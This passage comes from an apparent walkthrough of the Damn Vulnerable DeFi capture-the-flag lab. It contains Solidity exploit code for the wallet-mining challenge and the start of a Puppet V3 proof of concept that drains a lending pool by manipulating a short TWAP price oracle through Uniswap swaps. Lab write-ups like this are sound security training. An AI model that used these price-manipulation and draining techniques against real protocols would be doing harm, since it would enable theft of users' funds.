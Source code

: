 ```solidity
        authorizer.init(wards, aims); // This authorizes this contract to interact with the Safe wallet.

        // Deploy the Safe wallet via the WalletDeployer contract using the CREATE2 opcode with the provided initializer data and nonce.
        bool success = walletDeployer.drop(address(safe), initializer, saltNonce);
        require(success, "deploy failed"); // Ensure the deployment was successful.

        // Transfer the balance of this contract (if any) to the ward address.
        token.transfer(ward, token.balanceOf(address(this))); // Transfers tokens to the ward address.

        // Execute the transaction on the Safe wallet, calling it with the provided transaction data.
        (success, ) = safe.call(txData);
        require(success, "tx failed"); // Ensure the transaction was successful.
    }
}
```

Run `forge test --mp test/wallet-mining/WalletMining.t.sol --isolate` to validate test

---

## 14.PUPPET V3

**Obejctive**

_from `_isSolved()` in test_

1. _The attacker's exploit has to be completed in less than 115 seconds_
2. _All tokens of the lending pool were drained_
3. _All drained tokens from the lending pool were deposited into the recovery account_

**Attack Analysis**

- The pool has 100 WETH and 100 DVT tokens but it's actually low liquidity. `PuppetV3Pool` calculates the price of DVT tokens using a 10-minute Time-Weighted Average Price (TWAP). This setup makes the contract vulnerable to price manipulation attacks at a low cost. By exploiting this, an attacker could exchange make DVT tokens very cheap.
- The oracle determines the current price based on data from the past 10 minutes. Because the TWAP period is short, making large trades within this window, such as swapping a large amount of DVT, can significantly manipulate the price.
- Since TWAP uses delayed pricing, after manipulating the price, there's a brief time window (e.g., 110 seconds) for an attacker to take advantage of the lowered price and execute unfair loans.

**POC**

See [test/puppet-v3/PuppetV3.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4-walkthrough/blob/master/test/puppet-v3/PuppetV3.t.sol)

```solidity
import {ISwapRouter} from "@uniswap/v3-periphery/contracts/interfaces/ISwapRouter.sol";

function test_puppetV3() public checkSolvedByPlayer {
    ISwapRouter uniswapRouter = ISwapRouter(0xE592427A0AEce92De3Edee1F18E0157C05861564);
    token.approve(address(uniswapRouter), PLAYER_INITIAL_TOKEN_BALANCE);
    uniswapRouter.exactInputSingle(
        ISwapRouter.ExactInputSingleParams(
            address(token),
            address(weth),
            3000,
            address(player),
            block.timestamp,
            PLAYER_INITIAL_TOKEN_BALANCE,
            0,
            0
```